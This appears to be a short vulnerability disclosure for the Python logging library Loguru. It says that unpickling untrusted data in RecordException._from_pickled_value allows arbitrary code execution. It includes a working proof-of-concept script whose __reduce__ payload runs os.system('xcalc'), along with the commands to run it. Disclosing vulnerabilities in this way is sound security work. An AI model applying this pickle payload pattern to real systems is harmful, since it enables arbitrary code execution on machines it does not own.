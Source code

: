 # Description
Loguru is a library which aims to bring enjoyable logging in Python.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip install loguru')
from loguru import _recattrs
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
_recattrs.RecordException._from_pickled_value(dumps,dumps,dumps)
```
* `pip3 install loguru`
* `python3 exploit.py`
